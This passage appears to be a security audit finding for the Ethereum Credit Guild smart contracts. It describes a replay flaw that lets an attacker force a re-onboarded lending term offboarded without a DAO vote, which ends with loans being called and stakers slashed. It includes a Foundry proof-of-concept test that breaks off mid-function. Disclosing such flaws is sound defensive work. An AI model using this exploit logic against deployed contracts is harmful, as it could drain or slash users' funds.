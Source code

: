 `@1 - Once the voting weight is enough, the canOffboard[term] flag will be set`: See [here](<https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/governance/LendingTermOffboarding.sol#L138-L140>).

`@2 - If the canOffboard[term] flag is set, the term can be offboarded`: See [here](<https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/governance/LendingTermOffboarding.sol#L154>).

`@3 - To clean up the term, all its loans must be closed`: See [here](<https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/governance/LendingTermOffboarding.sol#L177-L180>).

### Impact

The active re-onboarded lending term can be forced to immediately offboard, bypassing the DAO vote offboarding, which is the protocol's core mechanism. Subsequently, the attacked lending term will block all new loans from being issued and prevent guild holders from voting for the term.

Moreover, all loans previously issued by the attacked term can be called putting the loans for bidding silently (since the attacker bypasses the DAO vote offboarding mechanism). If one of the loans fails on bidding to fill up the loan's principal, the [term's loss will be notified](https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/loan/LendingTerm.sol#L797). As a result, all users who stake credit tokens through the `SurplusGuildMinter` contract to vote for the attacked term will [be slashed with all their credit principal and guild rewards](https://github.com/code-423n4/2023-12-ethereumcreditguild/blob/2376d9af792584e3d15ec9c32578daa33bb56b43/src/loan/SurplusGuildMinter.sol#L228-L231).

### Proof of Concept

Place the `testPoCReplayOffboarding()` in the `.test/unit/governance/LendingTermOffboarding.t.sol` file and run the test using the `forge test --match-test testPoCReplayOffboarding -vvv` command:

```solidity
function testPoCReplayOffboarding() public {
    // Prepare for Bob
    guild.mint(bob, _QUORUM);
    vm.startPrank(bob);
    guild.delegate(bob);

    uint256 POLL_DURATION_BLOCKS = offboarder.POLL_DURATION_BLOCKS();
    uint256 snapshotBlock = block.number;
    uint256 OFFBOARDING_POLL_END_BLOCK = snapshotBlock + POLL_DURATION_BLOCKS;

    // Bob proposes an offboarding of the term
    assertEq(guild.isGauge(address(term)), true);
    offboarder.proposeOffboard(address(term));

    // Next 1 day
    vm.roll(block.number + 6646); // 1 day
    vm.warp(block.timestamp + 6646 * 13);
    assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);

    vm.expectRevert("LendingTermOffboarding: quorum not met");
    offboarder.cleanup(address(term));

    // Bob votes for offboarding the term and executes the offboarding (he has a sufficient voting weight)
    assertEq(guild.isGauge(address(term)), true);
    assertEq(offboarder.canOffboard(address(term)), false);
    offboarder.supportOffboard(snapshotBlock, address(term));
    offboarder.offboard(address(term));
    assertEq(guild.isGauge(address(term)), false);
    assertEq(offboarder.canOffboard(address(term)), true);

    // Cannot clean up because loans are active
    vm.expectRevert("LendingTermOffboarding: not all loans closed");
```